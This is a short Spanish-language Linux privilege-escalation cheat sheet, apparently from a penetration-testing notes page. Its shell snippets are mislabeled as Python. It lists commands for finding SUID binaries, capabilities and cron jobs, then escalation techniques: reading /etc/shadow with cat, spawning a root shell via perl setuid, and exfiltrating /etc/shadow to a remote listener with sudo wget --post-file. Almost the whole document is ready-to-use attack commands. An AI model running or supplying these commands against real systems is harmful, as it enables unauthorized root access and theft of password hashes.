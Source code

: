 ### Buscar Permisos SUID

```python
	find / -perm -u=s -type f 2>/dev/null
```
### Buscar binarios

```python
	find / -perm -4000 2>/dev/null
```
### Capabilities

```python
	getcap -r / 2>/dev/null
```
### Tareas programadas

```python
	cat /etc/crontab
```

---
### Escaladas 
### Escalada de privilegios con cat

```python
	/bin/cat /etc/shadow
```
### Escalada de privilegios con perl 

```python
	echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "/bin/bash";' > script.pl
	
	perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
	
```
### Escalada de privilegios con wget

```python
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> <puerto>
```
